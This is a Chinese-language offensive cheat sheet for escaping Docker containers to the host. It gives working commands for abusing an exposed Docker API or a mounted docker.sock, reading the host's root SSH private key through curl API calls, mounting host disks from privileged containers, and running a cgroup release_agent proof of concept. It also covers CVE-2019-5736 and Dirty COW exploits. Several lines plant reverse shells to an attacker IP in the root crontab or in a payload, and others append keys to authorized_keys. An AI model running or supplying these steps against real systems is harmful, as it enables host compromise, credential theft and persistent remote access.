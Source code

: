 	    一个工具https://github.com/stealthcopter/deepce
	    二个工具https://github.com/gabrtv/shocker
 #### 判断是否在docker容器中
	    检查/.dockerenv文件是否存在
	    检查/proc/1/cgroup内是否包含"docker"等字符串。
	    mount、fdisk -l查看硬盘 、判断PID 1的进程名
 #### 配置不当引发的逃逸
	    挂载点/在宿主/mnt目录
	    >docker -H tcp://10.1.1.1:2375 run -it -v /:/mnt nginx:latest /bin/bash
	    容器内执行
	    >echo '* * * * * /bin/bash -i >& /dev/tcp/10.1.1.2/4444 0>&1' >> /mnt/var/spool/cron/crontabs/root
	    本地监听4444，获得宿主机shell
 #### Docker sock
	    Docker.sock 是一个 Unix 套接字，它使 Docker 服务器端守护进程 dockerd 能够通过 REST API 与其命令行接口进行通信。 套接字显示为 /var/run/docker.sock 文件。 因为它是一个文件，管理员可以在容器中共享和运行 docker.sock，然后使用它与该容器进行通信。 运行 docker.sock 的容器可以启动或停止其他容器，在主机上创建镜像或写入主机文件系统。 这一切意味着当您运行“docker”命令行工具时，它实际上是在与 docker 套接字通信。
	    有时开发人员会将 docker 套接字安装在 docker 容器内，以便他们可以管理其他容器。 这通常使用以下命令完成：：
	    docker run -v /var/run/docker.sock:/var/run/docker.sock ubuntu:latest
	    注意“-v /var/run/docker.sock:/var/run/docker.sock”选项，这个标志将在 docker 容器内挂载 docker 套接字。 攻击者所要做的就是下载 docker CLI，他们将完全控制 docker API，这将允许他们删除容器、创建容器、执行命令或其他任何他们想要的东西
	    容器内找到docker.sock
	    >find / -name docker.sock
	    容器内查看宿主机信息
	    >docker -H unix:///var/位置 info
	    运行一个容器挂载宿主机根路径
	    >docker -H unix:///var/位置 run -it -v /:/test ubuntu /bin/bash
	    查看宿主机文件
	    >ls /test
 #### Docker sock 手动操作
	    查看可用的镜像
	    curl --unix-socket docker.sock http://localhost/images/json -s
	    创建一个容器
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"Hostname": "", "Domainname": "", "User": "", "AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Tty": true, "OpenStdin": true, "StdinOnce": true, "Entrypiont": "/bin/sh", "Image": "容器名称", "Volumes": {"/host/": {}}, "HostConfig": {"Binds": ["/:/host"]}}' http://localhost/containers/create
	    启动容器
	    curl --unix-socket docker.sock -s -X POST http://localhost/containers/容器ID/start
	    创建任务1
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Cmd": ["ls", "/host/"], "Privileged": true, "Tty": true }' http://localhost/containers/容器ID/exec
	    任务回显
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"Detach": false, "Tty": false}' http://localhost/exec/任务ID/start -o-
	    创建任务2 列出root .ssh目录
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Cmd": ["ls", "/host/root/.ssh"], "Privileged": true, "Tty": true }' http://localhost/containers/容器ID/exec
	    查看回显
	    curl --unix-socket docker.sock -o- -H 'Content-Type: application/json' -d '{"Detach": false, "Tty": false}' http://localhost/exec/任务ID/start
	    创建任务3 查看私钥文件
	    curl --unix-socket docker.sock -s -H 'Content-Type: application/json' -d '{"AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Cmd": ["cat", "/host/root/.ssh/id_rsa"], "Privileged": true, "Tty": true }' http://localhost/containers/容器ID/exec
	    查看私钥
	    curl --unix-socket docker.sock -o- -H 'Content-Type: application/json' -d '{"Detach": false, "Tty": false}' http://localhost/exec/任务ID/start
 #### 特权用户
	    Docker image如果使用“--privileged”标志运行，该标志禁用 Docker 提供的所有保护和隔离。运行“fdisk -l”并接收输出，可认为特权身份允许。
	    剩下要做的就是将主机文件系统挂载到“/dev/sda1”
	    >mkdir /test
	    >mount /dev/sda1 /test,读取宿主机文件。
	    写入计划任务
	    >echo '* * * * * /bin/bash -i >& /dev/tcp/10.1.1.2/4444 0>&1' >> /test/var/spool/cron/crontabs/root
	    本地监听返回shell
	    或挂在root目录后写入私钥文件
	    >docker run -itd -v /root:/root ubuntu:18.04 /bin/bash
	    >mkdir /root/.ssh
	    >cat id_rsa.pub >> /root/.ssh/authorized_keys
	    还可以尝试以下 POC 漏洞利用代码：
```bash
    d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
    mkdir -p $d/w;echo 1 >$d/w/notify_on_release
    t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    touch /o;
    echo $t/c >$d/release_agent;
    echo "#!/bin/sh $1 >$t/o" >/c;
    chmod +x /c;
    sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
 #### CVE-2019-5736
	    条件Docker < 18.09.2，runc< 1.0-rc6（docker ；docker-runc查看版本）
	    git clone https://github.com/Frichetten/CVE-2019-5736-PoC
	    >vim main.go
	    >payload = "#!/bin/bash \n bash -i >& /dev/tcp/YOURIP/1234 0>&1"
	    编译
	    >CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
	    复制到容器上执行
	    管理员通过exec进入容器，触发Payload
 #### CVE-2019-14271
 #### 脏牛漏洞实现Docker逃逸
	    >git clone https://github.com/gebl/dirtycow-docker-vdso.git
	    >cd dirtycow-docker-vdso/
	    >sudo docker-compose run dirtycow /bin/bash
	    >cd /dirtycow-vdso/
	    >make
	    >./xx YOURIP:1234
 #### 能力
	    CAP_SYS_ADMIN
	    CAP_SYS_PTRACE
	    CAP_SYS_MODULE
	    CAP_DAC_READ_SEARCH
	    CAP_DAC_OVERRIDE